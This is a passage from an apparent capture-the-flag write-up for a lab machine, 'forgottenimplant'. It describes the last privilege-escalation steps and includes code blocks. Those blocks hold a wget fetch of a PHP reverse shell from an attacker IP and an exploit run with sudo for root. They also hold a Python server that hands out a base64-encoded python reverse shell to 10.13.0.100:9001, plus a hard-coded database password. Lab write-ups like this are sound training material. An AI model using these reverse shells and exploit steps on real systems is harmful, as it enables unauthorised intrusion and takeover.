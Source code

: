 	5. Reconnect to user **ada** using our initial foothold exploit
	6. Once connected as **ada** download our exploit from our machine to the target
		1. `wget http://10.13.0.100:9002/php-reverse-shell.php`
			1. We can do this in ada's home directory
12. Once the shell has been uploaded to forgottenimplant all the pieces are in place
13. Run the exploit again this time calling the reverse shell using sudo
	1. `python 50457 $RHOST 8080 / app s4Ucbrme 'sudo /usr/bin/php /home/ada/php-reverse-shell.php'`
14. We are root!
15. Starting in the / directory we can navigate to /root directory and find the root.txt flag is a hidden file



## Code Blocks
### server.py
```python
import http.server
import socketserver
import base64

PORT = 81

class MyRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()

        # Data to be encoded in base64
        data = b'{"job_id": 15, "cmd": "whoami"}'
        data = b'{"job_id": 15, "cmd": "python3 -c \'import os,pty,socket;s=socket.socket();s.connect((\\"10.13.0.100\\",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\\"/bin/bash\\")\'"}'
        

        # Base64-encode the data
        encoded_data = base64.b64encode(data)

        # Write the base64-encoded data to the response
        self.wfile.write(encoded_data)

with socketserver.TCPServer(("", PORT), MyRequestHandler) as httpd:
    print("Server listening on port", PORT)
    httpd.serve_forever()
```


### products.py
```python
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```
